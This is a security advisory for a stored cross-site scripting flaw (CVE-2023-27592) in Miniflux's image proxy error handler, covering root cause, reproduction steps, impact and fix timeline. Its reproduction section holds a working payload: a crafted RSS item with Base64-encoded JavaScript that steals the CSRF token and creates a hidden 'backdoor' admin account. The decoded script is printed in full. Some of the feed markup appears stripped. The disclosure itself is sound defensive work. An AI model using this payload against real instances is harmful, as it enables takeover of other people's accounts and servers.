

# Stored XSS in Miniflux via unescaped ServerError in media proxy handler

## Advisory Info

- Vendor: [Miniflux](https://github.com/miniflux)
- Product: [Miniflux 2](https://github.com/miniflux/v2)
- Affected Versions: >= 2.0.25 < 2.0.43
- Patched Versions: 2.0.43
- Vendor Advisory: [https://github.com/miniflux/v2/security/advisories/GHSA-mqqg-xjhj-wfgw](https://github.com/miniflux/v2/security/advisories/GHSA-mqqg-xjhj-wfgw)
- Vendor Publication Date: 2023-03-17

## Vulnerability Info

- Weakness: [CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')](https://cwe.mitre.org/data/definitions/79.html)
- CVE: [CVE-2023-27592](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-27592)

## Summary

Since [v2.0.25](https://github.com/miniflux/v2/releases/tag/2.0.25), Miniflux will automatically [proxy](https://miniflux.app/docs/configuration.html#proxy-images) images from HTTP origins to prevent mixed content errors. Proxy URLs look like `https://miniflux/proxy/base64(digest)/base64(url)`, where `digest` is the HMAC-SHA256 [digest](https://github.com/miniflux/v2/blob/b2fd84e0d376a3af6329b9bb2e772ce38a25c31c/ui/proxy.go#L49-L51) of the image URL `url`.

When an outbound request made by the Go HTTP client during proxification fails, the error message is [passed](https://github.com/miniflux/v2/blob/b2fd84e0d376a3af6329b9bb2e772ce38a25c31c/ui/proxy.go#L76) unescaped to `html.ServerError` which [returns it](https://github.com/miniflux/v2/blob/b46b5dfb2aa3a1f5320a7a3420b9186bb8fc655f/http/response/html/html.go#L24-L33) without the Content Security Policy [header](https://github.com/miniflux/v2/blob/b2fd84e0d376a3af6329b9bb2e772ce38a25c31c/ui/proxy.go#L90) served with valid responses:

```go
resp, err := clt.Do(req)
if err != nil {
    html.ServerError(w, r, err) // [err contains raw HTML from the image URL]
    return
}
```

```go
func ServerError(w http.ResponseWriter, r *http.Request, err error) {
    logger.Error("[HTTP:Internal Server Error] %s => %v", r.URL, err)
    builder := response.New(w, r)
    builder.WithStatus(http.StatusInternalServerError)
    builder.WithHeader("Content-Type", "text/html; charset=utf-8")
    builder.WithHeader("Cache-Control", "no-cache, max-age=0, must-revalidate, no-store")
    builder.WithBody(err) // [err flows to the body of the ServerError without a CSP]
    builder.Write()
    }
```

By creating a feed item containing an `` tag with the `srcset` attribute pointing to an invalid URL like `http:a<script>alert(1)</script>`, it is possible to coerce the proxy handler (via the Go HTTP client) into an error condition where the URL is returned unescaped in full:

```html
Get "http:a<script>alert(1)</script>": http: no Host in request URL
```

This results in JavaScript execution when the user opens the broken image in a new tab (instructed by a message in the alt text). Since `/proxy` URLs are not user-bound, an attacker can also target other users with this stored XSS by sending them a crafted `/proxy` link.

## Steps to Reproduce

1. Bring up an instance of Miniflux (herein `https://miniflux`) following the [installation instructions](https://miniflux.app/docs/installation.html) and log in as the admin user.

2. Host the following XML file from an origin that you control:

    ```xml
    <?xml version="1.0" encoding="UTF-8" ?>
    <rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
      <channel>
        <title>Test blog</title>
        <item>
          <title>Test post</title>
          <description><![CDATA[eval(atob('dmFyIHRvayxwPW5ldyBET01QYXJzZXIsbz13aW5kb3cubG9jYXRpb24ub3JpZ2luO2ZldGNoKG8rIi91c2VycyIpLnRoZW4oKGZ1bmN0aW9uKHJlc3BvbnNlKXtyZXR1cm4gcmVzcG9uc2Uub2s/cmVzcG9uc2UudGV4dCgpOlByb21pc2UucmVqZWN0KHJlc3BvbnNlKX0pKS50aGVuKChmdW5jdGlvbihkYXRhKXtyZXR1cm4gdG9rPXAucGFyc2VGcm9tU3RyaW5nKGRhdGEsInRleHQvaHRtbCIpLmdldEVsZW1lbnRzQnlUYWdOYW1lKCJib2R5IilbMF0uZ2V0QXR0cmlidXRlKCJkYXRhLWNzcmYtdG9rZW4iKSxmZXRjaChvKyIvdXNlci9zYXZlIix7Y3JlZGVudGlhbHM6ImluY2x1ZGUiLGhlYWRlcnM6e0FjY2VwdDoidGV4dC9odG1sIiwiQ29udGVudC1UeXBlIjoiYXBwbGljYXRpb24veC13d3ctZm9ybS11cmxlbmNvZGVkIn0sYm9keTpgY3NyZj0ke3Rva30mdXNlcm5hbWU9YmFja2Rvb3ImcGFzc3dvcmQ9TWluaWZsdXhEZW1vJmNvbmZpcm1hdGlvbj1NaW5pZmx1eERlbW8maXNfYWRtaW49MWAsbWV0aG9kOiJQT1NUIixtb2RlOiJjb3JzIn0pfSkpLnRoZW4oKGZ1bmN0aW9uKHJlc3BvbnNlKXtpZighcmVzcG9uc2Uub2spcmV0dXJuIFByb21pc2UucmVqZWN0KHJlc3BvbnNlKTthbGVydChgQ3JlYXRlZCAnYmFja2Rvb3InIHVzZXIgb24gJHtvfWApfSkpLmNhdGNoKChmdW5jdGlvbihlcnIpe2FsZXJ0KGBFcnJvcjogJHtlcnJ9YCl9KSk7'))</script>"></img>]]>
          </description>
        </item>
      </channel>
    </rss>
    ```

3. Add the URL of the XML file from Step 2 as a new feed from `https://miniflux/subscribe` and open the test post.

4. Open the broken image in a new tab and observe the dialog confirming that a new user with the credentials `backdoor:MinifluxDemo` has been added to the Miniflux instance. The payload contains the following JavaScript encoded to Base64:

    ```javascript
    var tok,p=new DOMParser,o=window.location.origin;fetch(o+"/users").then((function(response){return response.ok?response.text():Promise.reject(response)})).then((function(data){return tok=p.parseFromString(response.responseText,"text/html").getElementsByTagName("body")[0].getAttribute("data-csrf-token"),fetch(o+"/user/save",{credentials:"include",headers:{Accept:"text/html","Content-Type":"application/x-www-form-urlencoded"},body:`csrf=${tok}&username=backdoor&password=MinifluxDemo&confirmation=MinifluxDemo&is_admin=1`,method:"POST",mode:"cors"})})).then((function(response){if(!response.ok)return Promise.reject(response);alert(`Created 'backdoor' admin user on Miniflux instance ${o}`)})).catch((function(err){alert(`Error: ${err}`)}));
    ```




## Impact

An attacker can execute arbitrary JavaScript in the context of a Miniflux user when they open a broken image in an RSS feed. This can be used to perform actions on the Miniflux instance as that user and gain administrative access to the Miniflux instance if it is reachable and the victim is an administrator.

## Recommendations

You should update to Miniflux version 2.0.43 or above as soon as possible.

## Timeline

- 2023-03-12: Vulnerability discovery
- 2023-03-12: Advisory sent to vendor
- 2023-03-13: Vendor acknowledgment
- 2023-03-13: Vendor commits fix ([PR](https://github.com/miniflux/v2/pull/1746))
- 2023-03-17: Vendor releases fix in v2.0.43
- 2023-03-17: Vendor public disclosure via [GitHub Security Advisory](https://github.com/miniflux/v2/security/advisories/GHSA-mqqg-xjhj-wfgw)
